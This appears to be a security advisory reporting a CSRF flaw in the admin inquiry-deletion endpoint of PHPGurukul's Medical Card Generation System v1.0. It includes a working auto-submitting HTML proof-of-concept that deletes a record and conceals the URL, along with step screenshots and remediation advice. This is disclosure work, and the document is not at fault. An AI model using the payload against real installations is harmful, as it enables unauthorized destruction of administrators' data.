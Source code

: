 **Project Name & Repo URL:**
[ Medicalcard Generations System](https://phpgurukul.com/medical-card-generation-system-using-php-and-mysql/)

**Vulnerability Type:**
CSRF

**Affected Version(s):** v1.0

**💣Vulnerability Description:**

A Cross-Site Request Forgery (CSRF) vulnerability exists in the Inquiry Management functionality `/mcgs/admin/readenq.php` of the Medical Card Generation System developed by PHPGurukul. The vulnerable endpoint allows an authenticated admin to delete inquiry records via a simple GET request, without requiring a CSRF token or validating the origin of the request.An attacker can exploit this flaw by tricking a logged-in admin into visiting a malicious page, causing unintended and unauthorized deletion of critical inquiry records without the admin’s knowledge or consent.

**👩‍💻Impact:**

Unauthorized Medical-Card Detail Deletion.

**🛜Proof-of-Concept (PoC):**

1)There was a delete functionality where only authenticated admin can delete inquery information.

![1](https://github.com/user-attachments/assets/ae49feeb-68e6-4e3d-9376-f9518d944dd0)
2) HTML code to send GET request to the endpoint `/mcgs/admin/readenq.php`.

```
<html>
  <body>
    <form action="http://127.0.0.1/mcgs/admin/readenq.php">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="del" value="delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
3)Use the HTML code and craft a malicious URL.

![2](https://github.com/user-attachments/assets/ef134b5b-fb0b-40ba-896f-fbc3e213b3b2)

4)After Admin clicks on the link, inquery information will be deleted.
![3](https://github.com/user-attachments/assets/38ce9d55-730b-4d10-9b23-50508e66fd70)
![4](https://github.com/user-attachments/assets/01fdec0a-cb34-4c8e-b2a6-7949a61728de)
![5](https://github.com/user-attachments/assets/be6d9a2c-ca2b-41f5-9b68-dbe05f9b942e)

**Recommendation:**

Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.

